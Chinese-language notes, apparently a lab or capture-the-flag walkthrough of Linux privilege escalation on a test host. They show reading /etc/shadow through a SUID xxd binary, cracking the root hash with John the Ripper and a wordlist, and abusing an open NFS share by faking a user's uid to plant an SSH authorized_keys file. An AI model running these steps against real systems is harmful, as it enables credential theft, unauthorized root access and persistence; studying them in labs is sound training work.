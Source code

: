 ```
find / -perm -4000 -type f -exec ls -al {} \;
```

可以看到

/usr/bin/xxd

xxd /etc/shadow | xxd -r

可以看到密码/etc/shadow的加密密码，复制root那一条保存为pass.txt

## 穷举密码

john pass.txt -w=/usr/share/wordlists/rockyou.txt

发现密码是root—secret123

------

## NFS提权

kali

nmap 192.168.87.134扫描目标服务器端口

发现2049端口，这个是nfs端口

showmount -e 192.168.87.134

发现

/home/peter的目录是开放的

cd /tmp

mkdir nfs

mount -t nfs 192.168.87.134:/home/peter /tmp/nfs/

ls -la /tmp/nfs/ 可以看到目标peter上的文件夹

cp /bin/bash /tmp/nfs/ 发现权限不够

此时需要在kali上面伪造一个和目标一模一样的peter

groupadd -g 1005 peter

adduser peter -uid 1001 -gid 1005

cd /tmp/nfs/

su peter 转化到kali的peter上

mkdir .ssh 在目标peter的共享文件夹上创建一个.ssh文件夹，为以后使用ssh去连接他做准备

cd ~ 进入kali的peter的文件夹

ssh-keygen 生成ssh的key（如果有选项，都选默认即可）

cd /tmp/nfs/

cat ~/.ssh/id_rsa.pub > ./.ssh/authorized_keys 把kali的peter的ssh密钥复制到目标peter的.ssh文件夹中
